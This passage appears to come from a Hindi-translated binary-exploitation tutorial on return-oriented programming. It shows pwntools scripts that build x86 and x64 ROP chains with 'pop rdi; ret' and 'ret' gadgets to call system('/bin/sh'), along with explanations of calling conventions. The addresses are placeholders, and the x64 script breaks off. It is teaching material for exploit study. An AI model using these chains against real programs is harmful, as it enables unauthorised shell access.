 ```python
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

* **System V AMD64 ABI** कॉलिंग कन्वेंशन का उपयोग यूनिक्स-जैसे सिस्टम पर किया जाता है, जहाँ **पहले छह पूर्णांक या पॉइंटर तर्क `RDI`, `RSI`, `RDX`, `RCX`, `R8`, और `R9` रजिस्टर में पास किए जाते हैं**। अतिरिक्त तर्क स्टैक पर पास किए जाते हैं। लौटने का मान `RAX` में रखा जाता है।
* **Windows x64** कॉलिंग कन्वेंशन पहले चार पूर्णांक या पॉइंटर तर्कों के लिए `RCX`, `RDX`, `R8`, और `R9` का उपयोग करता है, जबकि अतिरिक्त तर्क स्टैक पर पास किए जाते हैं। लौटने का मान `RAX` में रखा जाता है।
* **Registers**: 64-बिट रजिस्टर में `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, और `R8` से `R15` शामिल हैं।

#### **Finding Gadgets**

हमारे उद्देश्य के लिए, आइए उन गैजेट्स पर ध्यान केंद्रित करें जो हमें **RDI** रजिस्टर सेट करने की अनुमति देंगे (ताकि **system()** को तर्क के रूप में **"/bin/sh"** स्ट्रिंग पास कर सकें) और फिर **system()** फ़ंक्शन को कॉल करें। हम मान लेते हैं कि हमने निम्नलिखित गैजेट्स की पहचान की है:

* **pop rdi; ret**: स्टैक के शीर्ष मान को **RDI** में पॉप करता है और फिर लौटता है। **system()** के लिए हमारे तर्क को सेट करने के लिए आवश्यक।
* **ret**: एक साधारण रिटर्न, कुछ परिदृश्यों में स्टैक संरेखण के लिए उपयोगी।

और हम जानते हैं कि **system()** फ़ंक्शन का पता क्या है।

### **ROP Chain**

नीचे एक उदाहरण है जो **pwntools** का उपयोग करके **system('/bin/sh')** को **x64** पर निष्पादित करने के लिए ROP चेन सेटअप और निष्पादित करता है:
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
```